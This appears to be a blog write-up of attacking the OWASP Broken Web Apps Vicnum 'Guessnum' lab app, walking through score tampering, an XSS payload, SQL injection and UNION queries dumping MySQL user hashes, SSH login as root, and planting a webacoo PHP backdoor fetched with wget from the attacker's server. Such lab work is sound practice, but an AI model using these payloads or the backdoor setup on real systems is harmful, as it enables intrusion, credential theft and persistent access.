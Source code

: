+++
title = "OWASP Broken Web Apps Vicnum - Guessnum"
slug = "owasp-broken-web-apps-vicnum-guessnum"
default_language = "en"
[taxonomies]
categories=["vulnerable-web-app"]
tags=["web", "owasp"]
+++

I started off just playing the game to see what happens moving through the workflow.  After guessing the number in 8 tries I noticed that the count is being passed from the success page over to the scoreboard, using repeater to repeat with different parameters it turns out you can make up your own score by updating the paramter &cnt.

After letting Burp spider the site I saw a union page: union1.html seems like a sql union challenge..

Looking at the page, the name parameter probably isn't sql injectable, but probably XSS vulnerable.

Throwing:

```javascript
<script>alert(1)</script>
```

into the URL for the unionguessname GET parameter worked.

Now for the SQLi stuff.

Doing a quick:

```sql
' or 1 = 1 #
```

shows query results for all users on the page, so we know its injectable.

Now to get the db users and their passwords:
```sql
'  union all select user,password,3,4 from mysql.user#
```

Then with this I first tried crackstation.net, but wasn't able to get all the passwords for root, then I did a little research and it looks like the hashes are SHA1, after some searching I found this site: https://www.hashkiller.co.uk/ which found the root password in question: owaspbwa, this matches the readme when the VM boots up.

Then just to see how to do it I grabbed the whole database through a web request in Burp:
```sql
'  union all select table_schema, table_name,column_name,4 from information_schema.columns where table_schema != 'mysql' and table_schema != 'information_schema'#
```

Next lets ssh to the VM:

```bash
ssh root@ip
pw: owaspbwa
```

Now to get a persisted backdoor.

I've been playing with parrot and it looks like it comes with a web backdoor named webacoo, after some researching, it looks pretty solid, now to set things up.  

First the backdoor has to be generated:

```bash
webacoo -g -o bd.php
```

The -o option specifies to output to a file and the -g specifies to generate backdoor code, there is another option -f that allows control over what PHP function gets called to invoke the shell.

Next fire up SimpleHTTPServer in Parrot and change directory to the web root /var/www on the VM and run:

```bash
wget http://iptoparrot:8000/bd.php
```

Then to test things out:

```bash
webacoo -t -u http://ip/bd.php
```
